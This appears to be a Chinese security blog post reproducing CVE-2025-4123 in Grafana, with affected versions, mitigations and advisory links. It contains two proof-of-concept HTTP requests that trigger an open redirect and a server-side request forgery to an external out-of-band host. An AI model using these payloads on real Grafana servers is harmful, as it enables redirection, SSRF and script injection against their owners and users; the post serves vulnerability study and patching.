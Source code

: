 #  Vul情报 | CVE-2025-4123 漏洞（附EXP）   
 渗透Xiao白帽   2025-06-04 14:34  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x01漏洞介绍**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCX3eXeEoLLKgN8Fk0UnG0Hb2mRyibS5JqDrSnV6VHugw35MJpdP89HKCibDmTtsQ5c9RCdqfWaWicQg/640?wx_fmt=png&from=appmsg "")  
  
Grafana是Grafana开源的一套提供可视化监控界面的开源监控工具。该工具主要用于监控和分析Graphite、InfluxDB和Prometheus等。  
  
Grafana存在安全漏洞，该漏洞源于客户端路径遍历和开放重定向结合，可能导致跨站脚本攻击。  
  
  
注：  
该漏洞允许攻击者通过自定义前端插件将用户重定向到恶意网站，并执行任意 JаvаSсriрt 代码。  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x02影响版本**  
  
  
1、 8.0.0 ≤ grafana <10.4.18  
   
  
2、 11.2.0 ≤ grafana <11.2.9  
   
  
3、 11.3.0 ≤ grafana <11.3.6  
   
  
4、 11.4.0 ≤ grafana <11.4.4  
   
  
5、 11.5.0 ≤ grafana <11.5.4  
   
  
6、 11.6.0 ≤ grafana <11.6.1  
   
  
7、 12.0.0 ≤ grafana <12.0.1   
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCX3eXeEoLLKgN8Fk0UnG0H4J59RE9FU4XmHxlKsh6OlY2phiaFaNNA9Z4BXx9QfSGIXqOsKvnlnbQ/640?wx_fmt=png&from=appmsg "")  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x03漏洞复现**  
  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCX3eXeEoLLKgN8Fk0UnG0Hiaicd9aFyto4eEsI5Qv21AFiabibwN8JmR03ibGlib9N1b32DmSrdLjkvIag/640?wx_fmt=png&from=appmsg "")  
  
2.对漏洞进行复现  
  
   
**POC**  
  
漏洞复现  
  
1.开放重定向  
```
GET /public/..%2F%5coast.pro%2F%3f%2F..%2F.. HTTP/1.1
Host: 127.0.0.1:8080
```  
  
通过响应判断漏洞存在  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCX3eXeEoLLKgN8Fk0UnG0Huy9ZZoGdTiayCtGLhk7icPSarDm7nfPdZvmybHavvuk1XwuGDpRicGomw/640?wx_fmt=png&from=appmsg "")  
  
  
2.  
服务端请求伪造  
```
GET /render/public/..%252f%255Ckvc1mh.dnslog.cn%252f%253F%252f..%252f.. HTTP/1.1
Host: 127.0.0.1:8080
```  
  
     通过dnslog回显判断漏洞存在  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCX3eXeEoLLKgN8Fk0UnG0HaUBqvtKYsm5AMy8IqImylks4XRibAIk2QJkGMDYD3EKKt20UOouomKA/640?wx_fmt=png&from=appmsg "")  
  
  
3.Yakit插件  
测试  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCX3eXeEoLLKgN8Fk0UnG0HxaPAK4ux8tW2rnLvaViaVS0kBx663Sd9wuD6ic0eXTVeFIrsT1JztaEw/640?wx_fmt=png&from=appmsg "")  
  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x04修复建议**  
  
  
目前厂商已发布升级补丁以修复漏洞，补丁获取链接：  
## 临时缓解措施：  
  
1、添加默认内容安全策略配置。具体操作可参考：  
  
https://grafana.com/docs/grafana/latest/setup-grafana/configure-security/configure-security-hardening/#add-a-content-security-policy  
  
2、禁用Grafana 图像渲染器插件  
  
3、禁用匿名访问：在 grafana.ini 文件中设置 [auth.anonymous] enabled = false  
  
  
建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！    
```
https://grafana.com/security/security-advisories/cve-2025-4123/
https://grafana.com/blog/2025/05/21/grafana-security-release-high-severity-security-fix-for-cve-2025-4123/
```  
  
     
  
  
  
弥天简介  
  
学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。  
  
口号 网安引领时代，弥天点亮未来  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTER2M22xQ4L9ypTc8ycOSFz16CibJb5tZJAekLtXvhuAVPTwsIdyfGc6vViaCWib8HwdUeTs72DzN4ag/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**网 安 考 证**  
  
  
需要考各类安全证书的可以扫码找我咨询，  
618  
价格优惠、活动划算！  
  
报名CISSP、CCSP、PTE、PTS、IRE、IRS、DSG、CCSK、CDSP、CZTP、ITIL4等符合活动标准的认证课程  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/7D2JPvxqDTHjHaNZEcAQxmACdS20uaT7YUP0TObLHLBicia6vKicVJ75AVOfN3RQxop70GQXFhFRm0ZkdKoydgfIg/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1&random=0.06125543926007038&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/ib745vqibLBGIeAicnHiag9GCzTYjeicic5IWPqfyjLajDuwtJdNCAnCgcolqY8ROaE5CsEXR5zbjCU9aVl3WfkZpnDw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
往期推荐 · 有彩蛋  
  
[【内网渗透】内网信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485796&idx=1&sn=8e78cb0c7779307b1ae4bd1aac47c1f1&chksm=ea37f63edd407f2838e730cd958be213f995b7020ce1c5f96109216d52fa4c86780f3f34c194&scene=21#wechat_redirect)  
  
  
[【内网渗透】域内信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485855&idx=1&sn=3730e1a1e851b299537db7f49050d483&chksm=ea37f6c5dd407fd353d848cbc5da09beee11bc41fb3482cc01d22cbc0bec7032a5e493a6bed7&scene=21#wechat_redirect)  
  
  
[【超详细 | Python】CS免杀-Shellcode Loader原理(python)](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486582&idx=1&sn=572fbe4a921366c009365c4a37f52836&chksm=ea37f32cdd407a3aea2d4c100fdc0a9941b78b3c5d6f46ba6f71e946f2c82b5118bf1829d2dc&scene=21#wechat_redirect)  
  
  
[【超详细 | Python】CS免杀-分离+混淆免杀思路](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486638&idx=1&sn=99ce07c365acec41b6c8da07692ffca9&chksm=ea37f3f4dd407ae28611d23b31c39ff1c8bc79762bfe2535f12d1b9d7a6991777b178a89b308&scene=21#wechat_redirect)  
  
  
[【超详细 | 钟馗之眼】ZoomEye-python命令行的使用](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247488453&idx=1&sn=5828a0e1a2299d3ee0215f0ed4c30bf1&chksm=ea37ec9fdd406589124c67c45487be39ed1033d88c627092cf07f6d4f14ccdb9079b38dba74d&scene=21#wechat_redirect)  
  
  
[【超详细 | 附EXP】Weblogic CVE-2021-2394 RCE漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247488922&idx=1&sn=f43e3c243bbbfd2822867a3acaa8b85e&chksm=ea37eac0dd4063d63d98f935c73ce571cbfeb0e7272a6f171a28143bdb3e7134b09ea874969a&scene=21#wechat_redirect)  
  
  
[【超详细】CVE-2020-14882 | Weblogic未授权命令执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485550&idx=1&sn=921b100fd0a7cc183e92a5d3dd07185e&chksm=ea37f734dd407e22cfee57538d53a2d3f2ebb00014c8027d0b7b80591bcf30bc5647bfaf42f8&scene=21#wechat_redirect)  
  
  
[【超详细 | 附PoC】CVE-2021-2109 | Weblogic Server远程代码执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486517&idx=1&sn=34d494bd453a9472d2b2ebf42dc7e21b&chksm=ea37f36fdd407a7977b19d7fdd74acd44862517aac91dd51a28b8debe492d54f53b6bee07aa8&scene=21#wechat_redirect)  
  
  
[【漏洞分析 | 附EXP】CVE-2021-21985 VMware vCenter Server 远程代码执行漏洞](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247487906&idx=1&sn=e35998115108336f8b7c6679e16d1d0a&chksm=ea37eef8dd4067ee13470391ded0f1c8e269f01bcdee4273e9f57ca8924797447f72eb2656b2&scene=21#wechat_redirect)  
  
  
[【CNVD-2021-30167 | 附PoC】用友NC BeanShell远程代码执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247487897&idx=1&sn=6ab1eb2c83f164ff65084f8ba015ad60&chksm=ea37eec3dd4067d56adcb89a27478f7dbbb83b5077af14e108eca0c82168ae53ce4d1fbffabf&scene=21#wechat_redirect)  
  
## 【奇淫巧技】如何成为一个合格的“FOFA”工程师  
  
[【超详细】Microsoft Exchange 远程代码执行漏洞复现【CVE-2020-17144】](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485992&idx=1&sn=18741504243d11833aae7791f1acda25&chksm=ea37f572dd407c64894777bdf77e07bdfbb3ada0639ff3a19e9717e70f96b300ab437a8ed254&scene=21#wechat_redirect)  
  
  
[【超详细】Fastjson1.2.24反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=1&sn=1178e571dcb60adb67f00e3837da69a3&chksm=ea37f965dd4070732b9bbfa2fe51a5fe9030e116983a84cd10657aec7a310b01090512439079&scene=21#wechat_redirect)  
  
  
[  记一次HW实战笔记 | 艰难的提权爬坑](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=2&sn=5368b636aed77ce455a1e095c63651e4&chksm=ea37f965dd407073edbf27256c022645fe2c0bf8b57b38a6000e5aeb75733e10815a4028eb03&scene=21#wechat_redirect)  
  
  
  
  
**走过路过的大佬们留个关注再走呗**  
  
**往期文章有彩蛋哦******  
  
  
  
  
  
  
  
